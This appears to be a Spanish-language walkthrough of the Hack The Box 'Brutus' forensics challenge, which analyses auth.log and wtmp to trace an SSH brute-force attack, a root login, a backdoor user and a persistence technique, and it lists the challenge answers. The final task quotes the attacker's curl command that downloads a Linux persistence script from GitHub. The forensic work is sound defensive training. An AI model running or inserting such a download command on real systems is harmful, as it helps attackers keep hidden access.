









# HTB SHERLOCKS WRITEUP, DFIR BRUTUS, by breaakerr :)

## Segundo writeup de la serie Sherlocks de Hack the Box, ahora con BRUTUS, como se daran cuenta solamente por el nombre esta box trata sobre un ataque de fuerza bruta a un servidor de Confluence mediante el servicio SSH, despues de ganar acceso al servidor el atacante realizo algunas otras pillerias que vamos a ir viendo a medida que vayamos explorando el archivo más importante en cuestion, el auth.log, que ya de por si se suele utilizar para analizar ataques de fuerza bruta pero ahora vamos a ir un poco más allá explorando este archivo viendo cosas como habilidades de persistencia, escalado de privilegios y ejecución de comandos. Una MUY FACIL pero interesante box. 

### Primero lo primero y antes de pasar a las preguntas vamos a descomprimir los archivos que vienen incluidos en el .zip para ir viendo que tenemos de entrada. Y son dos ficheritos, auth.log y wtmp.

### Con esto ya listo para empezar a trabajar tenemos entonces varios topicos a analizar y enfocar de entrada, esos topicos son 
    *Persistencia
    *RCE
    *Escalado de privilegios
    *Fuerza bruta
    *Servidor Confluence
    
### Sabiendo esto vamos a avanzar entonces con las preguntas. 
## Task 1. Analizando el fichero auth.log, puedes identificar la dirección IP que uso el atacante para efectuar el ataque de fuerza bruta? Desde ya que si y ahora veremos como. Primero y principal vamos a abrir el fichero auth.log para ver que es lo que hay dentro y como está organizada la información (obviamente van a ser todas lineas, si fuese en formato json sería mas atractivo visualmente hablando)

La tarea 1 nos pide averiguar la IP pero ahora que lo pienso vamos a matar varios pajaros de un tiro con la ayuda del buen bash. 

    cat auth.log | grep sshd

  
### Claramente hay un montón de lineas, pero vayamos a las tres primeras...

Y es que acá vemos MUCHAS cosas interesantes. Veamos en detalle:

    *AuthorizedKeysCommand: Es una directiva de configuración de SSH que especifica un comando que debe ejecutarse 
    para obtener las claves públicas autorizadas para la autenticación del usuario.

    */usr/share/ec2-instance-connect/eic_run_authorized_keys: Es el comando que se está ejecutando como parte de 
    la autorización de las claves públicas. En sistemas basados en AWS, EC2 Instance Connect proporciona un método 
    seguro para conectarse a instancias de EC2 mediante la autenticación de claves SSH utilizando IAM 
    (Identity and Access Management).

    *root: Indica que el usuario para el que se está intentando realizar la autenticación de claves públicas 
    es el usuario root, que es el usuario administrativo en sistemas Linux.

    *SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A: Esto parece ser una huella digital de la clave pública 
    que se está utilizando para intentar la autenticación. El formato SHA256: sugiere que es el hash SHA-256 de la 
    clave pública.

    *failed, status 22: Indica que la operación de obtener las claves públicas autorizadas ha fallado, y el código 
    de estado 22 sugiere que ha habido un error relacionado con la validez de la clave o con el 
    proceso de autenticación en sí.

### En esas lineas tenemos un intento de autenticación mediante clave publica utilizando el servicio ssh, en un sistema de AWS. Y luego de ese intento fallido tenemos un intento exitoso de inicio de sesión como root. 

### Utilizando "cat auth.log | grep from" vamos a ver de donde salen tantos intentos de inicio de sesión. 

Ya tenemos la dirección IP del atacante: 65.2.161.68

## Ya vimos que hay un monton de accesos fallidos y si hay fallidos hay aceptados también, así que abusando una vez más de grep vamos a ver que intentos son los exitosos

Ahora es interesante lo que vemos acá, anotamos un poco mas de información interesante a la lista, hay un username a nombre de "cyberjunkie".
También notamos que el primer intento de login exitoso del atacante como root es en el puerto 34782, un minuto después hay otro en el puerto 53184 y al final tenemos el de cyberjunkie en el puerto 43260

## Ahora, retomando, la task 1 se responde con la IP del atancante, la TASK 2 pregunta cual es el usuario que es vulnerado por el atacante, la respuesta es "root".

## Task 3. La tarea 3 pide averiguar la fecha y hora en la que el atacante pudo iniciar sesión manualmente, ahora vamos a mirar un poquito en wtmp

### Acá hay varias cosas interesantes que van a responder varias de las tareas requeridas. La respuesta a la tarea tres es la primera de las tres últimas lineas del fichero, mas precisamente 
    [7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [*2024-03-06 06:32:45*,387923+00:00]

## Para la tarea 4 nos pide el numero de inicio de sesión de la Task 2

Acá el numero de sesión que nos figura es 37

## Para la tarea 5 se nos pide averiguar cual es el usuario que agrega el atacante en su proceso de persistencia, ya lo habiamos anotado antes y es nada mas y nada menos que cyberjunkie.

## Para la tarea 6 se nos pide el nombre de la técnica de persistencia utilizada por el atacante, en la tarea 5 vimos que lo que hizo fue agregar un usuario al grupo root.

## La respuesta es T1136.001

## La tarea 7 nos pide averiguar cuanto tiempo duro la sesión que revisamos en la tarea 4

## DESDE LAS 06:32:44 HASTA LAS 06:37:24 EN MIS LIBROS SON 280 SEGUNDOS, pero según HTB son 279 así que serán 279 lol

## En la última tarea nos dice que el atacante entró con la cuenta que tiene como backdoor para ejecutar un script malicioso, nos preguntan cual es el script que utilizo y nos pide una url. En las ultimas lineas de auth.log encontramos la respuesta a esta tarea.

## La respuesta es "/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"

# Bueno eso fue todo, espero que hayan podido disfrutar de esta sencilla box, como veran resolviendo las tareas sacabamos una o dos respuestas adicionales, por lo que no conlleva mucho esfuerzo. Esta box es más para aprender sobre investigaciones en dumpeos y en el fichero auth.log. Sin nada mas para agregar, nos veremos en el tercer Writeup, hasta pronto :D 